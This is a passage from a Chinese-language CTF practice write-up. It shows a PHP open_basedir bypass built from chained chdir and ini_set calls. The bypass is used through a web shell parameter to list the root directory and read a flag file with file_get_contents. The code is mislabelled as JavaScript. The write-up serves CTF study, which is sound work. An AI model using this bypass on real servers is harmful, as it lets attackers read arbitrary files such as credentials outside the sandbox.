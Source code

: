 绕过：https://xz.aliyun.com/t/4720

```javascript
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');print_r(scandir('/'));
#绕后用file_get_contents读就好了
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/158C8AD222ED4F4CBA01F352637092D9clipboard.png)

得到flag文件的文件名



接着：

```javascript
shell.cc?c=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents("/THis_Is_tHe_F14g"));
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/C2509C4CB1584BF3AC06F3A8F9E9B2DAclipboard.png)

